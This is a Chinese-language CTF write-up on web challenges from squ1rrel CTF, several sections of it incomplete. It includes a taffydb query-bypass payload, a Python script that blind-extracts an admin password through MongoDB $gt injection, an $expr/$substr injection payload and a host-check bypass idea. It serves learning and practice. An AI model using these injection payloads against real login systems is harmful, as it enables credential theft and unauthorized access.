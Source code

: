 `https://ctf.squ1rrel.dev/login?token=s1pniGOFTCNbGpXBaH6TOnQHoHPmROX77Hag8pLcUTSXzEHayVkKRN0cUF7B6k%2BoUNGHOQwBeyNHoSmpE%2BqEOi1cVPDDG1fNtFosvy%2FlUdEhw4BNtLfxiifRmcbb`
# web
### web/JSON Store

俩个路由
```js
const db = TAFFY([
    {"username": "admin", "comments": process.env.FLAG},
    {"username": "randomuser", "comments": "This is a test comment"},
]);
```
导入了taffydb这个内存数据库,存入和读取json

| 路由 | 作用 |
| ---- | ---- |
| app.post("/getData", | 获取username,filters,设置 filters["username"]=username ;`const data = db(filters).get();`返回data |
| app.post("/addData",  | 获取username,data,插入data,设置`data["username"] = username;`<br> |
感觉应该在getData下,构造一个filters,读取到admin的commnents,但是由于中间件存在express.json(),强制json解析body,导致taffy原本的查询语法部分不能使用


破案了,在npm install的时候直接提示了一个高危漏洞...
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240505224755.png)

taffydb在查询时如果找到索引,就会忽略其他条件,直接返回索引数据项,然后构造,尝试id遍历即可

```json
{
    "filters": {
        "___id":"T000002R000002",
        "___s":"true"
    },
    "username": "a"
}
```

### web/Goosemon
flag在admin的用户密码里,数据库用的是mongodb

ban掉了关键字regex,防止正则表达式注入

看来需要盲注出admin的密码
```js
    const result = await data.toArray();
    if (result.length > 0) {
      res.status(200).send("Login successful!");
    } else {
      res.status(400).send("Login failed!");
    }
```
https://www.mongodb.com/docs/v6.0/reference/operator/query/gt/
mongodb的操作符,发现有gte(>=),可以盲注

但是盲注过程中有`regex`这个字符串,被filter函数过滤了
```js
const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}
```


```python
import requests

url="http://34.132.166.199:5249/login"

flag="squ1rrel{7h0ugh7_y0u_c0u1d_rege"

for i in range(1000):
    min=0
    max=127
    mid=(min+max)//2
    while max > min:
        mid = (min+max)//2
        data={
            "username": "admin",
            "password": {
                "$gt":flag+chr(mid)
            }
        }
        print(data)
        result=requests.post(url,json=data)
        if (result.status_code==400):
            max=mid
        else:
            min=mid+1
        mid = (min+max)//2
    flag+=chr(mid-1)
    print(flag)


```

切片,拼接在mongodb查询里也不能用...


---
别人用的是expr,gpt害我
```json
{'username': 'admin', "$expr": { "$eq": [ { "$substr": ["$password", i, 1] }, c ]}}
```

### web/Key Server
一个jwt校验,公钥可以从url中读取,
```js
    if (!issuer.host.startsWith("10.")) {
        return res.status(401).send("Invalid IP address");
    }
```
https://dnsexit.com/domains/free-second-level-domains/
host是主机名不是ip,可以申请一个免费的二级域名 `10.publicvm.com`

本地通了,远程不行...

### web/mutex-lock
```js
app.put("/mutex/:name", (req, res) => {
    const { name } = req.params;
    if (mutexes[name] == undefined) {
        const uuid = crypto.randomUUID();
        mutexes[name] = uuid;
        return res.status(200).send("Acquired! Password to release: " + uuid);
    } else {
        return res.status(409).send("Mutex already acquired");
    }
});

app.delete("/mutex/:name", (req, res) => {
    const { name } = req.params;
    const pwd = req.query.pwd;
    if (mutexes[name] == undefined) {
        return res.status(404).send("Mutex not found");
    }

    if (mutexes[name] == pwd) {
        delete mutexes[name];
        return res.status(200).send("Mutex released.");
    } else {
        return res.status(403).send("Invalid password -- do you control this mutex?");
    }
});


```

很简单的代码,flag在环境变量里,但是这俩个路由也没有可以读flag的地方啊...

---

出题者修改了express的来源,指向了他的仓库,进去之后看commit
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240506181958.png)

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240509105214.png)


### web/Personal Website
https://squ1rrel.dev/squ1rrel-personal-website
一个简单的博客,什么也没有

---
通过wappalyzer可以看到是使用了firebase,并且图片也是用的这个存储
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240509105639.png)

firebase是谷歌的云主机NoSQL数据库




# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-05-05   22:39